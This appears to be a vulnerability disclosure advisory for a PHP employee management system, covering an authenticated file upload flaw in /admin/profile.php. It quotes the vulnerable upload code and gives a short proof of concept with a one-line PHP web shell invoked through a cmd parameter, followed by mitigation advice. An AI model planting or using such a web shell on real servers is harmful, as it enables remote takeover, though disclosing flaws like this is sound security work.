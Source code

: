 # Vulnerability Advisory: RCE via Authenticated Arbitary File upload
- **Application Name**: Employee management system 
- **Software Link**: [Download Link](https://www.sourcecodester.com/php/17689/best-employee-management-system-php.html/)  
- **Vendor Homepage**: [Vendor Homepage](https://www.sourcecodester.com/)  
- **Bug**: Remote Code Execution
- **Author**: sh3rl0ckpgp  



## About Project:
This employee management system in PHP that serves as an essential tool for organizations seeking to optimize their human resource management practices through effective software development in PHP.  You can say human resource management system in php also. Its implementation can lead to improved operational efficiency and enhanced employee-related record management.


## Vulnerability Overview
A security vulnerability has been identified in the file upload functionality of the provided code, which allows unrestricted file uploads, potentially leading to Remote Code Execution (RCE). This issue arises due to the lack of appropriate validation and sanitization of uploaded files, allowing an attacker to upload malicious files (such as executable scripts) that can then be executed on the server.


## Vulnerable Code Section:
- in `/admin/profile.php`:
```
$target_dir = "../assets/uploadImage/Profile/";
$website_logo = basename($_FILES["website_image"]["name"]);
if($_FILES["website_image"]["tmp_name"]!=''){
    $image = $target_dir . basename($_FILES["website_image"]["name"]);
    if (move_uploaded_file($_FILES["website_image"]["tmp_name"], $image)) {
        @unlink("../assets/uploadImage/Profile/".$_POST['old_website_image']);
    } else {
        echo "Sorry, there was an error uploading your file.";
    }
} else {
    $website_logo =$_POST['old_website_image'];
}
```
## Proof of Concept (PoC):
- create malicious file like shell.php
- write in the file this payload in order to execute the commands: `<?php system($_GET['cmd']);?>`
- upload the file to profile section
- access via http://localhost/hr_soft/assets/uploadImage/Profile/malicious.php?cmd=ipconfig

![image](https://github.com/user-attachments/assets/a6d4fed0-0aaa-4caf-9217-d2234c785f5a)

![image](https://github.com/user-attachments/assets/c72f3d00-07b0-430c-9e1b-079406874ad7)

![image](https://github.com/user-attachments/assets/7955de2a-6223-456c-978c-f964672d590b)

![image](https://github.com/user-attachments/assets/cd208a5d-9ffb-4596-ae40-ae97fe9ac995)



## Root Cause:
The code does not restrict the file types or validate the content of uploaded files, allowing attackers to upload files with executable extensions (e.g., .php, .sh). Without validation, an attacker can upload a malicious file, which could then be executed, resulting in RCE.

## Recommendation for Mitigation

Restrict File Types: Implement server-side checks to allow only specific image file types (e.g., .jpg, .png).

```
$allowed_types = array("image/jpeg", "image/png");
if (!in_array($_FILES["website_image"]["type"], $allowed_types)) {
    die("Only JPG and PNG files are allowed.");
}
```
- Rename Uploaded Files: Use a random or unique name for each uploaded file to prevent overwriting and tampering.
- Move File to Non-Executable Directory: Store uploads in a directory without execute permissions to prevent PHP code execution.
- Server Configuration: Disable PHP execution in the upload directory by configuring .htaccess:

